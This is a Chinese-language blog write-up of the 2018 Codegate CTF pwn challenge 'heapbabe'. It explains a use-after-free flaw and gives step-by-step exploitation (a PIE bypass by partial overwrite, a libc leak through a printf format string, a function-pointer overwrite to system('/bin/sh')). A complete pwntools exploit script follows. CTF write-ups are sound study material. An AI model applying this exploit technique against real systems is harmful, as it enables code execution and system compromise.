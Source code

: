 ```yaml
---
layout: post
title: "2018 codegate heapbabe"
description: "uafpwn"
categories: [2018/05]
tags: [ctf,pwn]
redirect_from:
  - /2018/05/19/
---
```


* heapbabe

> IDA反编译看一下，发现在delete函数中判断该buffer是否存在是判断table中该buffer的地址是否存在，而删除过程中并没有把该地址置0，所以有uaf漏洞，并且会调用存放在堆中的函数地址，那么只要修改该地址就可以劫持rip

&emsp;&emsp;&emsp;![2017-nullcon-level1](https://raw.githubusercontent.com/lm0963/lm0963.github.io/master/assets/images/screenshots/pwn/2018-codegate-heapbabe-1.png)

利用：

> 1.分配两个足够大的buffer，然后释放掉，这时候table里面会留有两个堆地址（堆块0，堆块1）  
> 2.分配一个足够大的buffer，覆盖堆块1里面的函数地址的低字节为\xaa，之所以要足够大是为了使快表中的空闲地址与其他地址合并（堆块2）
> 3.delete堆块1，获得函数地址，绕过pie
> 4.delete堆块2，重复第二步，覆盖地址为printf的地址，通过%12$lx泄露出libc的地址
> 5.delete堆块2，重复第二步，覆盖地址为system的地址，并且前面存放/bin/sh;
> 6.最后delete堆块1，获得shell

```
from pwn import *
io=process('heapbabe')
#gdb.attach(io)
#context.log_level='debug'

def alloc(size,data):
    io.sendlineafter('>>','A')
    io.sendlineafter('size',str(size))
    io.sendafter('contents',data)

def free(idx):
    io.sendlineafter('>>','F')
    io.sendlineafter('id',str(idx))
    io.sendlineafter('DELETE','DELETE')

alloc(0x400,'0'*0x400)
alloc(0x400,'1'*0x400)
#alloc(0x90,'2'*0x90)
free(1)
free(0)
payload='\xaa\0'.rjust(0x42a,'0')
alloc(len(payload),payload)
free(1)
io.recvuntil('\xaa')
addr=u64(('\xaa'+io.recvline()[:-1]).ljust(8,'\0'))-0xcaa
free(0)
payload='0'.ljust(0x420-3,'0')+'0x%12$lxend'+(p64(addr+0xd85)+'\0')#.rjust(0x431,'0')
alloc(len(payload),payload)
free(1)
io.recvuntil('0x')
libc=int(io.recvuntil('end')[:-3],16)-0x3C3483
system=libc+0x46590
io.sendline('A')
io.sendline('A')
free(0)
payload='0'.ljust(0x428-0x18,'0')+'/bin/sh;'+'a'*0x10+(p64(system)+'\0')
alloc(len(payload),payload)
free(1)
print hex(libc)
print hex(system)
print hex(addr)
io.interactive()
```